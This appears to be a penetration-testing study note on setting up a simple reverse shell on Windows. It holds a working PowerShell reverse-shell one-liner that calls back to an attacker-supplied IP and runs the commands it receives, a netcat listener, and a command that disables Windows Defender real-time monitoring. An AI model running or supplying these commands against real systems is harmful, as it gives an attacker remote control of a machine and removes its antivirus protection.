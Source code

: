 - In a Reverse Shell, the attacker will have a listener running, and the target will need to initiate the connection.
- There are Helpful tools that infosec veterans have put together to assist.
	-  [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is one fantastic resource that contains a list off different commands, code, and even automated reverse shell generators to get a `reverse shell`.
	- Better to customize the attack a bit in order to carry a penetration test cause as many admins are aware of public repositories and open-source resources.

- ## Simple Reverse Shell in Windows:

	- Simple reverse Shell using some PowerShell code on Windows.
	
		- ### Server:
			- `nc -lvnp <port>`
			- `Listening on 0.0.0.0 <port>`
			
			- Ensure it does not get blocked going outbound through the OS firewall and at the network level.
			
				- A firewall is capable of deep packet inspection and `layer 7` visibility may be able to detect & stop a reverse shell going outbound on a common port because its examining the contents of the network packets, not just the IP address.

				- `Netcat` can be used to initiate the reverse shell on the `Windows Side`
		
		- ###### what applications and shell are hosted on the target ?
			- Initially use command prompt & PowerShell to establish the simple reverse shell.
			
			- ### Client(Target)
			
				- `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
				
		- ###### Client(target)
			-  `Windows Defender antivirus` (`AV`) software stopped the execution of the code.
			-  Disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):
			
			- #### Disable AV:
				- `Set-MpPreference -DisableRealtimeMonitoring $true`
		
		- ### Server:
			- `nc -lvnp <port>`
    		  `Listening on 0.0.0.0 <port>`
			- `Connection received on <host_add> <port>`
			- `PS <Directory_path> > <command>`



[[Shells]]
